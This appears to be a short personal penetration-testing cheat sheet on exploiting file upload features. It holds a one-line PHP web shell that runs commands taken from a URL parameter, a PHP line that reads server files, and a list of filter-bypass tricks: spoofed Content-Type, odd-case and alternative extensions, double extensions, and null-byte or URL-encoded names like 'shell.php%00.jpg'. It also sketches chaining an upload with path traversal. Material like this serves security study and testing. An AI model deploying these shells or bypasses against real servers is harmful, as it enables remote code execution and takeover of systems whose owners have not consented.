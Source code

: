 
- you can upload PHP files to get RCE (Remote Code Execution) or a Web Shell

```php
<?php echo file_get_contents('/dir/dir/file'); ?>
<?php echo system($_GET['command']); ?>

```


# Bypass filter
```python
- Upload php file then change the Content-Type to image/jpeg or image/png
- use different case - file.pHp
- use extensions such as php5, shtml
- In Apache, a php file might be executed using the double extension technique such as “file.php.jpg” when “.jpg” is allowed.
- use different encoding techniques (null byte, singe and double url encode):
	%2E = .
	%25, %32, %65 = %, 2, 3
	%00 = null byte

	- shell%2E.php
	- shell%25%32%65.php
	- shell.php%00.jpg
	- shell.phpl.jpg



```

![[Pasted image 20221124192425.png]]




# chain attack
```python
- if the application is not validated to restrict executable file upload but restricts the execution of it in specific directory but have a path traversal vulnerability on upload. Upload the executable file (php, etc.) to a different location. Remember to use different encoding techniques to bypass filter.

-
```


# Tools

### Exiftool
```python
	
```





































